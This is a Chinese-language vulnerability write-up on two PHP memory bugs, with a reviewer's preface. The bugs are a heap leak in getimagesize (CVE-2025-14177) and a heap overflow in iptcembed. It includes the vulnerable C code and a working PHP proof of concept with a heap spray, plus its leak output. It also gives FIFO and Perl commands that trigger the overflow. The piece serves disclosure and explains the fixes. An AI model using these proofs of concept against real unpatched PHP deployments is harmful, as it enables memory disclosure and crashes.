





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：示例PHP8.6.0-dev调试构建，未列两缺陷的发行分支影响/修复版本

代码与实验材料：getimagesize源码、完整堆标记PoC与输出；无过滤器第二变体缺两脚本源码；iptcembed FIFO/ASAN触发明确，仅证明内存越界

来源证据范围：PHP GHSA、issues20584/20582、官方函数文档和PositiveTechnologies原研究齐全

- **事实待核（1）**：多缺陷元数据不能共用一个CVE；依据：后半iptcembed独立问题号无CVE，需拆实体关联。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：缺发行版本与实际Web攻击前提；依据：getimagesize需暴露APP信息给攻击者；iptcembed FIFO或可并发增长文件，不是任意静态JPEG上传都触发。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：代码无围栏且第二PoC不完整；依据：大片C/PHP被当普通段落，webapp.php/attacker.php只有命令和输出。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  一次一口吃掉大象：PHP中与JPEG相关的内存安全漏洞  
 幻泉之洲   2026-05-17 07:09  
  
> PHP内核很少被视作攻击面，但ext/standard扩展里大量处理文件的C代码其实暗藏风险。本文拆解了两个真实漏洞：getimagesize函数在读取JPEG APP段时泄露堆内存（CVE-2025-14177），以及iptcembed函数在重新打包JPEG时发生堆缓冲区溢出。从Zend引擎架构讲起，到漏洞利用的PoC演示，整篇文章想告诉你，那些你以为很安全的原生函数，底层可能只是一段没做边界检查的C代码。  
  
## 一份不常被审视的代码  
  
PHP是全球使用率最高的语言之一。日常讨论安全时，人们总把目光放在框架和第三方库上，PHP内核本身很少成为焦点。但现实是，大量应用逻辑直接依赖ext/standard扩展里的内置函数——处理字符串、查询参数、数据格式和文件。我们翻了一遍这个扩展的C源码，发现了几处内存管理缺陷。下面挑两个典型的讲：getimagesize里的堆内存泄露，以及iptcembed里的堆缓冲区溢出。  
  
  
## Zend引擎：PHP的骨骼与肌肉  
  
Zend Engine是PHP的开源C核心，负责解释和执行PHP代码。你查PHP版本时总能看到Zend Engine和Zend OPcache的字样：  
  
$ ./sapi/cli/php -v  
  
PHP 8.6.0-dev (cli) (built: Dec 11 2025 15:18:13) (NTS DEBUG)  
  
Copyright (c) The PHP Group  
  
Zend Engine v4.6.0-dev, Copyright (c) Zend Technologies  
  
with Zend OPcache v8.6.0-dev, Copyright (c), by Zend Technologies  
  
简单拆一下，Zend Engine包含这几个部分：  
- Zend VM：执行子系统，像个引擎一样解释指令、管理调用栈、执行运算、调用扩展函数。从PHP 8开始，某些配置下还能通过JIT编译进一步优化。  
  
- Zend Compiler：把PHP代码转成虚拟机认识的内部表示。先用词法分析器切词，再用语法分析器构建抽象语法树，最后准备执行。  
  
- Zend Executor：操作码执行器，是Zend VM的运行时部分。它遍历op_array，创建或更新调用帧，管理execute_data，执行内置和用户定义的函数。核心逻辑主要在zend_execute.c和生成的VM处理器里。  
  
- Zend Memory Manager：PHP运行时的内存管理器，处理变量、数组、对象的内存分配与释放，用到引用计数和垃圾回收。现代版本高度优化，开销很低。  
  
- Zend API：一套内部接口，用来写C扩展模块。注册函数和类、定义数据结构、操作zval都靠它。  
  
- Zend Optimizer+ (OPcache)：把PHP脚本编译结果缓存到共享内存，后续请求就不用重新编译源码。它不算Zend VM核心解释器的一部分，但通常随PHP一起发布，生产环境都会开启。  
  
- Zend Garbage Collector+：循环引用垃圾回收器。PHP主要靠引用计数管理内存，GC额外找出并释放那些因循环引用而无法通过引用计数回收的对象和数组。  
  
## 一段PHP代码如何跑起来  
  
PHP脚本在解释器内的执行生命周期可以简化为三个阶段：词法分析 → 解析和编译 → 执行。  
  
  
  
流程大致是这样：  
- SAPI入口：执行总是从服务器API开始。这一层把PHP引擎与环境连接起来——无论是Web服务器（通过Apache模块或PHP-FPM的FastCGI）还是命令行。SAPI接收请求或命令，初始化执行环境，配置输出、头信息、限制参数，然后把控制权交给Zend Engine。  
  
- PHP源码：引擎拿到脚本文本，作为编译或缓存的输入。  
  
- OPcache（如果启用）：这是快速通道。Zend Engine会先检查OPcache，避免重复解析和编译。缓存命中时，引擎直接取现成的op_array去执行；未命中就走词法分析、解析、编译，然后把结果存入OPcache。  
  
- Tokenizer（词法分析器）：把PHP源码字符流切成词法单元——关键字、标识符、字面量等。  
  
- Parser（语法分析器）：构建抽象语法树。在现代PHP版本里，AST是一个独立阶段，把语法分析和生成可执行指令分开。  
  
- Zend Compiler：把AST翻译成内部可执行表示——op_array结构。它包含操作码和相关数据，比如常量和字面量。  
  
- Zend Executor：解释操作码并执行程序——分支、函数调用、值运算、异常处理等。执行期间，引擎调用内置函数和C扩展函数，并通过文件、网络、进程等与操作系统交互。内存和垃圾回收方面，请求期间的内存通常通过Zend Memory Manager分配，垃圾回收器在根缓冲区满等条件下触发，处理循环引用。  
  
- JIT（可选；属于OPcache的一部分）：如果JIT开启，部分“热点”代码的执行可能从操作码解释切换到原生机器码。在PHP实现里，JIT是OPcache的一部分，用额外的共享内存区存储机器码，入口点与op_array和操作码关联。  
  
- 通过SAPI返回结果：执行结果通过SAPI返回给外部环境，可以是HTTP响应、控制台输出，也包括错误和退出码。  
  
## 标准扩展：功能越多，攻击面越大  
  
标准扩展（php-src/ext/standard）是PHP的基础扩展，提供了绝大多数开箱即用的函数。在典型构建里，这个扩展和解释器一起编译，注册了数百个过程式API：字符串和数组工具、URL和HTTP辅助函数、文件操作、流封装器，以及解析特定数据格式的代码。比如，用getimagesize处理JPEG元数据，就落在这个范围里。  
  
从安全角度看，这里是敏感地带。ext/standard里的C代码经常处理不可控的输入——文件、请求载荷、参数——而且被广泛使用的PHP原语调用。所以，这儿的漏洞和缺陷影响范围通常极大。  
## 缺陷一：getimagesize在读取JPEG APP段时泄露堆内存  
  
  
CVE-2025-14177[1]  
 严重程度：中等，6.3/10  
### 怎么回事  
  
2025年11月，标准扩展里被发现一个bug：调用原生getimagesize函数，在某些条件下，通过$info返回的APP段数据（比如APP1）后面可能拖着未初始化的堆内存字节。我们把这个发现提交给厂商[2]  
，他们深入分析后将其定性为安全漏洞，分配了CVE-2025-14177。  
  
getimagesize[3]  
函数用来获取图片文件的尺寸、类型、MIME以及可用于HTML IMG标签的字符串。通过image_info参数，还能返回扩展信息，比如JPEG的APP标记。但这个机制只在JFIF文件上支持。  
### 问题出在哪  
  
核心问题在于：某些条件下，$info变量里返回的APPn数据与文件中的真实段内容不符。实际观察到两种现象：后续每个块都写到缓冲区开头，导致$info['APPn']的头几个字节对应最后读取的块；返回字符串的尾部可能包含从未填充的未初始化字节——即之前堆内存的残留。  
  
这是典型的内存泄露。如果应用处理一张图片，然后用$info['APPn']操作用户文件，就存在泄露进程内存碎片的风险。触发这个漏洞需要多块读取。在JPEG文件里，APP段是包含元数据或辅助信息的特定段类型：EXIF数据（拍摄参数、GPS坐标）、IPTC信息（作者、关键词）、注释、创建者信息等。  
  
一个JPEG文件由多个段组成，以SOI标记0xFFD8开头，后面跟一系列段。  
  
  
  
APP段（APP0–APP15）是带有标记0xFFE0…0xFFEF的元数据段，包含特定数据格式，比如EXIF、XMP。每个APP段有2字节长度字段和载荷。APP1（0xFFE1）尤其重要，通常存放EXIF和XMP数据，处理这个段会影响JPEG结构解析时的安全性。  
  
JPEG中APP标记的用途如下表：  
<table><thead><tr><th><section><span leaf="">标记</span></section></th><th><section><span leaf="">十六进制</span></section></th><th><section><span leaf="">用途</span></section></th></tr></thead><tbody><tr><td><section><span leaf="">APP0</span></section></td><td><section><span leaf="">0xFFE0</span></section></td><td><section><span leaf="">JFIF / JFXX（缩略图扩展）</span></section></td></tr><tr><td><section><span leaf="">APP1</span></section></td><td><section><span leaf="">0xFFE1</span></section></td><td><section><span leaf="">Exif / XMP</span></section></td></tr><tr><td><section><span leaf="">APP2</span></section></td><td><section><span leaf="">0xFFE2</span></section></td><td><section><span leaf="">ICC配置文件 / FlashPix扩展</span></section></td></tr><tr><td><section><span leaf="">APP3-APP7</span></section></td><td><section><span leaf="">0xFFE3-0xFFE7</span></section></td><td><section><span leaf="">（未标准化）</span></section></td></tr><tr><td><section><span leaf="">APP8</span></section></td><td><section><span leaf="">0xFFE8</span></section></td><td><section><span leaf="">SPIFF</span></section></td></tr><tr><td><section><span leaf="">APP9-APP11</span></section></td><td><section><span leaf="">0xFFE9-0xFFEB</span></section></td><td><section><span leaf="">（未标准化）</span></section></td></tr><tr><td><section><span leaf="">APP12</span></section></td><td><section><span leaf="">0xFFEC</span></section></td><td><section><span leaf="">Picture Info / Ducky</span></section></td></tr><tr><td><section><span leaf="">APP13</span></section></td><td><section><span leaf="">0xFFED</span></section></td><td><section><span leaf="">Photoshop图像资源（含IPTC）</span></section></td></tr><tr><td><section><span leaf="">APP14</span></section></td><td><section><span leaf="">0xFFEE</span></section></td><td><section><span leaf="">Adobe</span></section></td></tr><tr><td><section><span leaf="">APP15</span></section></td><td><section><span leaf="">0xFFEF</span></section></td><td><section><span leaf="">（未标准化）</span></section></td></tr></tbody></table>

### 技术细节：块拼接错位  
  
问题藏在php_read_APP函数和它的辅助读取函数php_read_stream_all_chunks（php-src/ext/standard/image.c）。思路很简单：APP段的长度已知，PHP分配N字节缓冲区，从流中读取载荷，然后把数据放到$info['APPn']。致命缺陷在这儿：emalloc分配的是未初始化内存，并返回指针。如果某些字节从未写入缓冲区，它们仍会通过add_assoc_stringl函数进入$info['APPn']。  
  
static int php_read_APP(php_stream * stream, unsigned int marker, zval *info)  
  
{  
  
    size_t length;  
  
    char *buffer;  
  
    char markername[16];  
  
    zval *tmp;  
  
  
    length = php_read2(stream);  
  
    if (length < 2) { return 0; }  
  
    length -= 2; /* length includes itself */  
  
  
    buffer = emalloc(length);  
  
  
    if (php_read_stream_all_chunks(stream, buffer, length) != length) {  
  
        efree(buffer);  
  
        return 0;  
  
    }  
  
  
    snprintf(markername, sizeof(markername), "APP%d", marker - M_APP0);  
  
    if ((tmp = zend_hash_str_find(Z_ARRVAL_P(info), markername, strlen(markername))) == NULL) {  
  
        add_assoc_stringl(info, markername, buffer, length);  
  
    }  
  
    efree(buffer);  
  
    return 1;  
  
}  
  
缺陷出在从流中拼接块时：php_read_stream_all_chunks中，read_total计数器在增加，但php_stream_read宏总是把数据写到缓冲区起始地址，没有为已读取的字节加偏移。  
  
static size_t php_read_stream_all_chunks(php_stream *stream, char *buffer, size_t length)  
  
{  
  
    size_t read_total = 0;  
  
    do {  
  
        ssize_t read_now = php_stream_read(stream, buffer, length - read_total);  
  
        read_total += read_now;  
  
        if (read_now < stream->chunk_size && read_total != length) {  
  
            return 0;  
  
        }  
  
    } while (read_total < length);  
  
  
    return read_total;  
  
}  
  
举个例子，假设length=9000，chunk_size=8192：第一次php_stream_read读取8192字节写到buffer[0..8191]；第二次读取808字节写到buffer[0..807]，把开头覆盖了；buffer[8192..8999]从未被填充，保持未写入状态。  
  
  
  
结果：php_read_APP函数认为读取成功，将length字节复制到$info['APPn']，可缓冲区开头被最后一个块覆盖，尾部仍为未初始化的垃圾数据。  
### 从公开问题到安全漏洞  
  
起初，这个问题看起来只在涉及流过滤器的罕见场景中出现。但厂商在修复时发现了一个关键细节：过滤器并不是严格前提。最初没有归类为安全问题，是因为复现时用了流过滤器，且假设只有真实图片文件才会被使用。但深入调查后发现，如果攻击者知道流的块大小（通常是默认值），即使处理普通图片也能利用。这种攻击更复杂，但可行。于是缺陷被重新归类为漏洞，发布了安全公告，分配CVE-2025-14177。  
### 漏洞利用：两个概念验证  
  
分类审查期间，我们写了两个PoC。按时间顺序呈现。  
  
**PoC 1：通过php://filter复现**  
。这是最初提交给开发者的最小复现脚本。通过php://filter读取文件，强制运行时以多块方式读取APP1段。过滤器本身不是漏洞前提，只是触发缺陷的方便手段。脚本生成一个带大APP1段的最小合法JPEG，在堆上填充特定标记后释放，然后读取文件并比较返回的数据，查找泄露的标记。  
  
```php
<?php  
  
// Minimal PoC: corruption/uninitialized memory leak when reading APP1 via php://filter  
  
$file = __DIR__ . '/min.jpg';  
  
// Make APP1 large enough so it is read in multiple chunks  
  
$chunk = 8192;  
  
$tail  = 123;  
  
$payload = str_repeat('A', $chunk) . str_repeat('B', $chunk) . str_repeat('X', $tail);  
  
$app1Len = 2 + strlen($payload);  
  
// Minimal JPEG: SOI + APP1 + SOF0(1x1) + EOI  
  
$sof  = "\xFF\xC0" . pack('n', 11) . "\x08" . pack('n',1) . pack('n',1) . "\x01\x11\x00";  
  
$jpeg = "\xFF\xD8" . "\xFF\xE1" . pack('n', $app1Len) . $payload . $sof . "\xFF\xD9";  
  
file_put_contents($file, $jpeg);  
  
// Mini heap-spray: fill heap with a marker and free it, so the C buffer  
  
// can reuse those areas and return marker remnants in $info['APP1']  
  
$marker = 'LEAK-MARKER-123!';  
  
$spr = substr(str_repeat($marker, intdiv(strlen($payload) + strlen($marker) - 1, strlen($marker))), 0, strlen($payload));  
  
$spray = [];  
  
for ($i = 0; $i < 512; $i++) {  
  
  $x = $spr; $x[0] = chr($i & 0x7F); // Copy on write -> distinct allocations  
  
  $spray[$i] = $x;  
  
}  
  
unset($spray, $x);  
  
gc_collect_cycles();  
  
// Read through a filter to enforce multiple reads  
  
$src = 'php://filter/read=string.rot13|string.rot13/resource=' . $file;  
  
$info = null;  
  
if (!@getimagesize($src, $info) || !isset($info['APP1'])) {  
  
  echo "Error: failed to obtain APP1 from getimagesize().\n";  
  
  exit(1);  
  
}  
  
$exp = $payload;  
  
$ret = $info['APP1'];  
  
// Human-readable output  
  
$lenExp = strlen($exp);  
  
$lenRet = strlen($ret);  
  
echo "APP1 length: expected=$lenExp, actual=$lenRet\n";  
  
echo "Expected APP1 head (HEX): ", bin2hex(substr($exp, 0, 16)), "\n";  
  
echo "Returned APP1 head (HEX): ", bin2hex(substr($ret, 0, 16)), "\n";  
  
echo ($exp === $ret)  
  
  ? "Result: OK - data matches.\n"  
  
  : "Result: VULNERABLE - data differs (corruption/leak).\n";  
  
// If found - show marker offset and a short snippet  
  
$pos = strpos($ret, $marker);  
  
if ($pos !== false) {  
  
  echo "Leak marker found: offset=$pos (inside returned APP1).\n";  
  
  $ctx = 12;  
  
  $start = max(0, $pos - $ctx);  
  
  $end = min(strlen($ret), $pos + strlen($marker) + $ctx);  
  
  $before = substr($ret, $start, $pos - $start);  
  
  $mid    = substr($ret, $pos, strlen($marker));  
  
  $after  = substr($ret, $pos + strlen($marker), $end - ($pos + strlen($marker)));  
  
  $sanitize = function ($s) {  
  
    return preg_replace('/[^\x20-\x7E]/', '.', $s);  
  
  };  
  
  $asciiLine = $sanitize($before) . '[' . $mid . ']' . $sanitize($after);  
  
  $hexLine = bin2hex($before) . '[' . bin2hex($mid) . ']' . bin2hex($after);  
  
  echo "Snippet with marker (ASCII, marker in []): ", $asciiLine, "\n";  
  
  echo "Snippet with marker (HEX, marker in []):   ", $hexLine, "\n";  
  
} else if ($exp !== $ret) {  
  
  echo "Marker not found, but data differs - still indicates a read bug.\n";  
  
}  
  
```

执行后成功读到了本应无法访问的堆数据。  
  
```text
$ ./php cli.php  
  
APP1 length: expected=16507, actual=16507  
  
Expected APP1 head (HEX): 41414141414141414141414141414141  
  
Returned APP1 head (HEX): 4242424242425a5a5a5a5a5a5a5a5a5a  
  
Result: VULNERABLE - data differs (corruption/leak).  
  
Leak marker found: offset=16392 (inside returned APP1).  
  
Snippet with marker (ASCII, marker in []): -MARKER-123![LEAK-MARKER-123!]LEAK-MARKER-  
  
Snippet with marker (HEX, marker in []):   2d4d41524b45522d31323321[4c45414b2d4d41524b45522d31323321]4c45414b2d4d41524b45522d  
  
```

**PoC 2：无过滤器场景**  
。这个变体更贴近真实Web场景（比如从php://input上传并读取），通过控制输入流的发送节奏来触发多块读取。用两个简单脚本：一个模拟上传处理程序（webapp.php），从请求体读JPEG并调用getimagesize；另一个攻击脚本（attacker.php）生成带大APP1段的合法JPEG，分两阶段发送——先发送到APP1段数据的前缀，短暂停顿后再发送剩余部分。默认块大小8192字节，这样就能触发多块读取。  
  
演示时使用FIFO管道：  
  
```text
$ mkfifo /tmp/php-image-poc; ./php webapp.php < /tmp/php-image-poc  
  
Result: VULNERABLE (APP1 does not start with Exif)  
  
Snippet (ASCII): AAAAKER-123![LEAK-MARKER-123!]LEAK-MARKER-  
  
```

另一个终端：  
  
```text
$ ./php attacker.php > /tmp/php-image-poc  
  
Sending JPEG in 2 phases: total=9038 split_at=24 sleep_us=50000  
  
```

返回的数据里出现了本不该泄漏的堆内存，证明漏洞利用成功。  
### 修复  
  
修复非常精准：每次读取后缓冲区指针向前移动（buffer += read_now），保证下一个块顺序追加。这次更改在提交“Fix GH-20584”里引入，并附带回归测试。  
## 缺陷二：iptcembed中的堆缓冲区溢出  
  
  
公开问题：https://github.com/php/php-src/issues/20582  
### 怎么回事  
  
这是典型的“量一次、读到天荒地老”陷阱。iptcembed函数靠单次fstat()结果来分配堆缓冲区大小，然后死命读字节流直到EOF，根本不检查缓冲区容量。  
  
iptcembed[4]  
用来把二进制IPTC数据嵌入JPEG图片。函数接口：iptcembed(string $iptc_data, string $filename, int $spool = 0): string|bool  
### 技术细节：只量一次，一直写  
  
输出缓冲区（spoolbuf）基于fstat()返回的st_size预分配。之后每读一个字节都往缓冲区末尾追加，从不检查有没有地方。对于非普通文件（如FIFO），st_size为0，但流本身没有固定大小，导致堆缓冲区溢出。即使普通文件，也存在TOCTOU窗口：fstat之后、读取完成之前，文件大小可能改变。  
  
  
  
执行流程：iptcembed调用fstat，按固定开销加st_size分配spoolbuf。poi是spoolbuf内的当前写入位置，每写一字节前进。在M_APP13和M_SOS分支，解析器停止插入标记，转为读取剩余数据直到EOF，所有内容直接拷贝进spoolbuf。如果流比分配的缓冲区长，就发生堆越界写。  
  
缓冲区大小严格关联st_size的代码：  
  
if (spool < 2) {  
  
    if (zend_fstat(fileno(fp), &sb) != 0) {  
  
      fclose(fp);  
  
      RETURN_FALSE;  
  
    }  
  
    spoolbuf = zend_string_safe_alloc(1, iptcdata_len + sizeof(psheader) + 1024 + 1, sb.st_size, 0);  
  
    poi = (unsigned char*)ZSTR_VAL(spoolbuf);  
  
    memset(poi, 0, iptcdata_len + sizeof(psheader) + sb.st_size + 1024 + 1);  
  
}  
  
读取过程中，poi前进，字节被写入，没有边界检查：  
  
static int php_iptc_get1(FILE *fp, int spool, unsigned char **spoolbuf)  
  
{  
  
  int c; char cc;  
  
  c = getc(fp);  
  
  if (c == EOF) return EOF;  
  
  if (spool > 0) { cc = c; PUTC(cc); }  
  
  if (spoolbuf) *(*spoolbuf)++ = c; // 危险操作：无边界检查  
  
  return c;  
  
}  
  
负责读取剩余内容的函数php_iptc_read_remaining只是循环调用php_iptc_get1直到EOF——如果st_size与实际输入数据量不匹配，这本身就危险。在M_APP13和M_SOS分支，解析器切换到这种只读模式。  
  
  
  
从FIFO读取（st_size==0）或文件在fstat后增长时，复制循环将poi推进到超出分配字符串，造成堆缓冲区溢出。  
### 利用演示  
  
同样用两个终端：终端A运行一行PHP脚本，终端B用Perl脚本构造JPEG流。关键是用FIFO使得st_size=0，分配的spoolbuf极小，但写入的数据量巨大（8MiB的'A'），必然溢出。  
  
终端A：  
  
$ mkfifo /tmp/pipe.jpg  
  
$ USE_ZEND_ALLOC=0 ASAN_OPTIONS=detect_leaks=0:abort_on_error=1 ./php -n -r 'var_dump(iptcembed("A", "/tmp/pipe.jpg"));'  
  
终端B：  
  
perl -e 'binmode STDOUT; print "\xFF\xD8"; print "\xFF\xE0\x00\x10","JFIF", "\x00"x9; print "\xFF\xDA\x00\x08", "\x00"x6; print "A" x (8*1024*1024);' > /tmp/pipe.jpg  
  
PHP脚本立即触发AddressSanitizer报告的堆缓冲区溢出。栈回溯清楚显示问题在php_iptc_get1函数。  
### 为什么这样构造  
  
FF D8是SOI起始标记；最小APP0段让解析器接受文件；最小SOS段后，代码进入php_iptc_read_remaining，无脑复制至EOF；8MiB的'A'尾巴让一个极小的缓冲区彻底溢出。而spool参数默认0，默认分配spoolbuf，如果spool>=2，则根本不使用缓冲区，也就触发不了溢出。  
### 修复  
  
厂商在2025年11月26日通过PR引入修复。给php_iptc_get1和php_iptc_put1函数增加spoolbuf_end参数，强制边界检查。如果缓冲区已满就返回EOF，不再越界写。  
  
if (spoolbuf) {  
  
  if (UNEXPECTED(*spoolbuf >= spoolbuf_end)) {  
  
    return EOF;  
  
  }  
  
  *(*spoolbuf)++ = c;  
  
}  
  
在iptcembed中计算边界，并加入错误处理路径：如果写操作因缓冲区满而返回EOF，则跳转到清理标签，释放内存并返回FALSE，同时显式设置结束空字节，确保字符串正确终止。  
## 结论  
  
我们掀开PHP的引擎盖，看了ext/standard模块里图像处理相关的两个堆内存漏洞。这些原生函数底层C代码直接处理不可信数据，即便在成熟组件里，这类片段依然是漏洞来源。getimagesize的内存泄露（CVE-2025-14177）和iptcembed的堆缓冲区溢出都已被修复，但它们的存在提醒我们，对外部数据格式的解析机制值得继续仔细审计。  
  
  
感谢阅读。  
### 参考资料  
  
[1]   
https://github.com/php/php-src/security/advisories/GHSA-3237-qqm7-mfv7  
  
[2]   
https://github.com/php/php-src/issues/20584  
  
[3]   
https://www.php.net/manual/en/function.getimagesize.php  
  
[4]   
https://www.php.net/manual/en/function.iptcembed.php  
  
[5]   
